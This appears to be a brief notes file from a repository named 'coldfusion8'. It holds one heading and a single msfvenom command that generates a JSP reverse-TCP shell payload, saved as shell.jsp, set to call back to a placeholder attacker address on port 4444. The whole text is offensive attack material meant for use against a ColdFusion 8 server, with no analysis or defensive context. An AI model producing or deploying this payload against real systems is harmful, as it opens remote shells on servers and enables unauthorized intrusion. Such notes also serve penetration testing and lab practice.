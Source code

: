 # coldfusion8

## Create jsp payload

msfvenom -p java/jsp_shell_reverse_tcp LHOST=xx.xxx.xxx.xxx LPORT=4444 -f raw > shell.jsp
